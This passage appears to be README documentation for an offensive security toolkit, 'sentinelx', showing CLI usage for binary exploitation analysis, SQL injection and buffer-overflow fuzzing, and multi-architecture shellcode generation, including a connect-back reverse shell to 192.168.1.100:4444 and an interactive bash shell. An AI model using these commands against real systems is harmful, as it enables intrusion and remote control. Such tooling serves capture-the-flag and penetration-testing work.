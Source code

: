 ```bash
# Full analysis (all techniques)
sentinelx run pwn-toolkit -p '{"binary": "./challenge"}'

# Quick analysis (common techniques only)
sentinelx run pwn-toolkit -p '{"binary": "./target", "mode": "quick"}'

# Custom technique selection
sentinelx run pwn-toolkit -p '{"binary": "./target", "mode": "custom", "techniques": ["buffer_overflow", "rop_chain", "heap_exploit"]}'
```

**Analysis Modes:**
- `full`: Comprehensive analysis with all techniques (default)
- `quick`: Fast analysis with common techniques
- `custom`: User-specified technique list

### 6. **fuzzer** - Intelligent Fuzzing
Multi-protocol fuzzing for vulnerability discovery.

```bash
# SQL injection fuzzing
sentinelx run fuzzer -p '{"target": "http://example.com/login", "type": "sql"}'

# Buffer overflow fuzzing
sentinelx run fuzzer -p '{"target": "./binary", "type": "buffer_overflow"}'

# Custom payload fuzzing
sentinelx run fuzzer -p '{"target": "localhost:9999", "type": "custom", "payloads": ["AAAA", "BBBB"]}'
```

### 7. **shellcode** - Shellcode Generation
Multi-architecture shellcode generation and encoding.

```bash
# Generate /bin/sh shellcode
sentinelx run shellcode -p '{"arch": "x86_64", "type": "sh"}'

# Connect-back shell
sentinelx run shellcode -p '{"arch": "i386", "type": "connect", "host": "192.168.1.100", "port": 4444}'

# Custom execve shellcode
sentinelx run shellcode -p '{"arch": "x86_64", "type": "execve", "command": "/bin/bash", "args": ["-i"]}'
```

**Architectures:** `x86_64`, `i386`, `arm`, `aarch64`, `mips`, `mips64`
**Shellcode Types:** `sh`, `execve`, `connect`, `bind`, `download`, `stager`

## Advanced Usage Examples
